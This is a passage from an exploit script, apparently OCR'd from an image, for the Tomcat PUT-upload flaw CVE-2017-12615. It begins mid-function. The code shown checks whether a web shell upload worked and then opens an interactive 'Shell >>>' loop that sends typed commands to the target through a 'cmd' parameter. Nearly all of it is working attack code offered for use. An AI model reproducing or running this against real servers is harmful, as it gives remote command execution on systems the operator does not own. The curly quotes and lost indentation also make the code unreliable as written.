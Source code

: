 ```

return 1

else:

return 0

def do_post(command_in):

payload = {“cmd”:command_in}

result = requests.get(payload_url[:-1], params=payload)

print result.content

if (creat_command_interface() == 1):

print “[+] Put Upload Success: “+payload_url[:-1]+”?cmd=id\n”

else:

print("[-] This host is not vulnerable CVE-2017-12615")

exit()

while 1:

command_in = raw_input("Shell >>> ")

if command_in == “exit” : exit(0)

do_post(command_in) 
```